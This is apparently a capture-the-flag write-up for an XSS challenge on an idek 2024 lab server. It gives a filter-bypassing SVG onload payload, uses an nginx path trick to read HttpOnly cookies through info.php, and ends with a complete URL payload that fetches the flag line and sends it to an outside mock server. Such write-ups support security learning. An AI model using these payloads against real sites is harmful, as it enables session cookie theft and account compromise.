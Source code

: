 ### Hello
Reference: https://vaktibabat.github.io/posts/idek_2024/

This was an interestung xss challenge. When I visited the page, nothing displays on the page
According to index.php, there is a blacklist for what the name query can have

index.php
```
<?php
function Enhanced_Trim($inp) {
  $trimmed = array("\r", "\n", "\t", "/", " ");
  return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
  $name=substr($_GET['name'],0,23);
  echo "Hello, ".Enhanced_Trim($_GET['name']);
}
?>
```

Bypass for this blacklist: ```<svg%0conload=alert(123)>```
On entering this, we get a successful alert

Now since the flag is located in the flag cookie, we need to find a way to exfiltrate the cooie. However since forward slashes are blacklisted, to specify the url we can use:
```window.location.href.substring(0, 7)``` to substitute for https:// and ```window.location.href.substring(5, 6)``` for just /

However , the cookies have been set with HttpOnly attribute. A cookie with the HttpOnly attribute can’t be modified by JavaScript, for example using document.cookie; it can only be modified when it reaches the server. 

This is where the info.php page comes handy. An nginx bypass lets /info.php/index.php return the same info as info /info.php. Hence we can visit this page instead to get our cookies

The payload javascript:
```
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "mymockserver123456.free.beeceptor.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```
- The fetch() call returns us a promise with the Response of the /info.php/index.php page.
- text() function returns a promise with the text of the page as a string
- For each line, we want to send it to the attacker if it contains the flag by calling forEach on the lines:
- Then we check whether the string FLAG appears in the current line. If it does, it calls fetch with attacker.com/cookies?resp=

Final payload to be sent to the bot:
```http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"mymockserver123456.free.beeceptor.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>```

FLAG: idek{Ghazy_N3gm_Elbalad}
